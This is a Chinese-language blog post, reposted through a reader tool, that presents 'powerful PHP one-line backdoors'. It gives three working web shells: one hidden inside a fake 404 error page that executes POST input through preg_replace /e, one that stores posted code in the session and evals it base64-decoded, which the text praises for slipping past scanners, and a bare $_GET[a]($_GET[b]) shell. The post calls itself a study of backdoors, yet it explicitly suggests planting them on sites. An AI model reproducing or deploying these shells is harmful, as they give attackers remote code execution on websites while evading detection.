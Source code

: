 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.uedbox.com](https://www.uedbox.com/post/6051/)

那些强悍的 PHP 一句话后门
===============

*   发表于 2013 年 05 月 10 日
*   [周边](https://www.uedbox.com/web-security/safety/)
*   更新于 2019 年 03 月 25 日 20:22:06 下午

以一个学习的心态来对待 PHP 后门程序，很多 PHP 后门代码让我们看到程序员们是多么的用心良苦。

![](https://www.uedbox.com/wp-content/uploads/2013/05/trojan-1024x684.jpg)

强悍的 [PHP 一句话](https://www.uedbox.com/good-php-door/)后门
------------------------------------------------------

这类后门让网站、服务器管理员很是头疼，经常要换着方法进行各种检测，而很多新出现的编写技术，用普通的检测方法是没法发现并处理的。今天我们细数一些有意思的 PHP 一句话木马。

利用 404 页面隐藏 PHP 小马
------------------

```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
<?php
@preg_replace("/[pageerror]/e",$_POST['error'],"saft");
header('HTTP/1.1 404 Not Found');
?>
```

404 页面是网站常用的文件，一般建议好后很少有人会去对它进行检查修改，这时我们可以利用这一点进行隐藏后门。

无特征隐藏 PHP 一句话
-------------

```
<?php
session_start();
$_POST['code'] && $_SESSION['theCode'] = trim($_POST['code']);
$_SESSION['theCode']&&preg_replace('\'a\'eis','e'.'v'.'a'.'l'.'(base64_decode($_SESSION[\'theCode\']))','a');
```

将 $_POST['code'] 的内容赋值给 $_SESSION['theCode']，然后执行 $_SESSION['theCode']，亮点是没有特征码。用扫描工具来检查代码的话，是不会报警的，达到目的了。

超级隐蔽的 PHP 后门

```
<?php $_GET[a]($_GET[b]);?>
```
